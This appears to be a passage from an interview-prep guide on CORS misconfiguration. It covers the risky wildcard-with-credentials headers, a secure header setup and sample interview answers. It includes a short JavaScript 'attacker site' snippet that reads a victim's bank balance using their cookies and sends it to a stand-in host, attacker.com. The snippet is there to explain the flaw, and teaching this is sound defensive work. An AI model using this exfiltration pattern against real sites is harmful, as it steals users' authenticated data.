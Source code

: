 ### 🔹 5.2 Critical Example: Wildcard + Credentials

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

✅ **This is a major vulnerability** — it allows **any website** to make authenticated requests and **read the response**.

❌ Attacker site:
```javascript
fetch('https://yourbank.com/api/balance', {
  credentials: 'include'
}).then(r => r.json()).then(data => {
  fetch('https://attacker.com/steal?balance=' + data.balance);
});
```

✅ Steals user’s balance because browser sends cookies.

---

### 🔹 5.3 Secure Configuration

```http
Access-Control-Allow-Origin: https://trusted-app.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, Authorization
Vary: Origin
```

✅ Only allow **specific, trusted origins** — never `*` with credentials.

---

### 📌 Interview Answer

> _"CORS misconfiguration happens when policies are too permissive — like allowing all origins with credentials. This lets any site read authenticated API responses. I always specify exact origins, never use `*` with `Allow-Credentials`, and set `Vary: Origin`. I test CORS settings with tools like Postman or Burp Suite to ensure they’re tight."_  

---

## ✅ Final Tip

> 🎯 In interviews, **combine defenses**:
> _"I scan dependencies for vulnerabilities, enforce CSP to block XSS, prevent misconfigurations with automated checks, handle errors securely, and configure CORS safely."_  

That shows **defense-in-depth thinking** — exactly what senior roles want.

---



